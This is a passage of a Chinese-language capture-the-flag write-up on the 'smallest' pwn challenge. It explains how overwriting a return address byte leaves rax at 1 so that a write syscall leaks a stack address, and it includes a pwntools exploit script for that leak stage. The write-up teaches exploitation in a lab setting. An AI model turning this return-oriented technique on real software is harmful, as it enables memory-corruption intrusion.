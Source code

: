     接着执行ret，此时返回的地址是esp存放的0x4000B3，表示指令mov edx, 400h，正好跳过了xor rax, rax，这样rax的值能够继续保存为1，此时esp指向的是第三个main\_addr，如图<4>
    
    程序跳转到0x4000B3继续执行，rax为1表示调用函数write(1,esp,0x400h)，此时会输出栈内存地址，但是由于此时栈中的第一个内容还是第三个main\_addr,故需要读取8到16的内容
    
    接着执行ret，此时程序返回的是main\_addr,而esp指向的地址就是我们得到的栈地址
    
    [![](assets/1701606411-78ce3f83445b9e960eb2120d32b94b33.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129204919-b6799d94-8eb5-1.jpg)
    
    对应的exp：
    
    ```plain
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次main_addr是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #程序成功将三个地址写入栈中，此时执行ret后将程序返回至main_addr,而esp指向第二个main_addr
    #进行新一轮的read，发送3的目的是将当前esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的0x04000B0会变成0x04000B3,这个地址正好对应的是mov  edx, 400h，跳过了xor rax,rax(将rax的值变成0)，read函数的特性，写入了一个字符后，将写入的长度存放在rax，也就是为1，接着执行到ret，将程序返回至0x04000B3，此时esp指向的是刚开始的第三个main_addr
    #由于rax里面的值为1，正好是write函数的系统调用号，也就意味着接下来执行的是write函数,而需要输出的首地址是esp，此时第一个存放的是main_addr,接下来的8到16就是我们需要得到的地址
    #输出地址后，程序执行ret，此时程序又返回到main_addr,程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    ```
    